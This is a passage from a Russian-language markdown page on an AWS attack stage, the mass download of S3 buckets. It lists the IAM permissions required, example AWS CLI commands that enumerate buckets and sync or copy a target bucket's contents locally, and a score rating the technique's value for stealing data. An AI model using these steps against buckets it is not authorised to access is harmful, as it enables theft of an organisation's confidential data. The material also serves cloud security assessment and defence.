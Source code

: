 
### 🔍 **Этап 4: Скачивание S3 бакетов**

#### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "s3:ListBucket",
                "s3:GetObject",
                "s3:GetObjectVersion"
            ],
            "Resource": [
                "arn:aws:s3:::target-bucket",
                "arn:aws:s3:::target-bucket/*"
            ]
        }
    ]
}
```

#### Минимальные права для атаки:
- **s3:ListBucket** - перечисление объектов в бакете
- **s3:GetObject** - скачивание объектов
- **s3:GetObjectVersion** - доступ к версиям объектов

#### Расширенные права (более опасные):
- **s3:GetObjectAcl** - получение ACL объектов
- **s3:GetBucketAcl** - получение ACL бакета
- **s3:GetBucketPolicy** - получение политики бакета
- **s3:GetBucketLocation** - определение региона бакета

#### Примеры атак:
```bash
# Перечисление бакетов
aws s3 ls

# Перечисление объектов в бакете
aws s3 ls s3://target-bucket/

# Скачивание всех объектов
aws s3 sync s3://target-bucket/ ./local-folder/

# Скачивание конкретного объекта
aws s3 cp s3://target-bucket/sensitive-file.txt ./
```

#### Эксплуатационная ценность: 🔥🔥🔥🔥🔥 (35 баллов)
- **Прямой доступ к данным** без дополнительной аутентификации
- **Возможность кражи** конфиденциальной информации
- **Анализ структуры** данных организации

---